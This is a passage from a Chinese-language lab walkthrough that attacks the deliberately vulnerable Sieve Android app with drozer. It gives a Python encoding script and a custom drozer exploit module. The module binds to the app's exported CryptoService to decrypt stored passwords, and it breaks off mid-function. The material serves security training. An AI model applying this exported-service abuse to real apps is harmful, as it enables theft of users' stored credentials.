 要解密密文，需要把字节数组通过drozer命令行传给drozer-agent。有一个坑是命令行无法传输字节数组，所以这里引入了自定义模块。通过自定义模块把base64编码后的密文，传给agent，agent自定义模块解码密文后，调用相关组件完成解密。

### 编码
先编写一个脚本，把有符号整型转为字节数组
```
import base64

ret = b''
intarray = [-60, 47, 95, -20, 70, 127, -25, -125, 51, -117, -102, -71, -45, -95, -12, 29, -71, 88, 88, 17, -11, 69, -44, 121, -38, 121, -56, 94]
for i in intarray:
	ret += int.to_bytes(i, 1, 'big', signed=True)

print(base64.b64encode(ret))
```
得到编码后的结果b'xC9f7EZ/54Mzi5q506H0HblYWBH1RdR52nnIXg=='

### 自定义模块
编写自定义模块，文件名为exploit.sieve.crypto.decrypt（文件名和模块信息相对应，不可随意命名，不用.py后缀）

文件内容如下
```
PS F:\> cat .\exploit.sieve.crypto.decrypt
import base64 
 
from drozer import android 
from drozer.modules import common, Module 
 
class Decrypt(Module, common.ServiceBinding): 
    name = "Decrypt Sieve passwords" 
    description = "Decrypt a given password with the provided key" 
    examples = "" 
    author = "MWR InfoSecurity (@mwrlabs)" 
    date = "2014-07-22" 
    license = "BSD (3 clause)" 
    path = ["exploit", "sieve", "crypto"] 
    permissions = ["com.mwr.dz.permissions.GET_CONTEXT"] 
 
    def add_arguments(self, parser): 
        parser.add_argument("key", help="AES key") 
        parser.add_argument("base64_ciphertext", help= 
        "the base64 ciphertext string to be decrypted") 
 
    def execute(self, arguments): 
 
        # Create a bundle with the required user input
        bundle = self.new("android.os.Bundle") 
        bundle.putString("com.mwr.example.sieve.KEY", arguments.key) 
        bundle.putByteArray("com.mwr.example.sieve.PASSWORD", 
        self.arg(base64.b64decode(arguments.base64_ciphertext), 
        obj_type="data")) 
 
        # Define service endpoint and parameters 
        binding = self.getBinding("com.mwr.example.sieve", 
                  "com.mwr.example.sieve.CryptoService") 
        binding.setBundle(bundle) 
        binding.setObjFormat("bundleAsObj") 
 
        # Send message and receive reply 
        msg = (13476, 1, 1) 
        if binding.send_message(msg, 5000): 
            self.stdout.write("%s\n" % binding.getData()) 
        else: 
```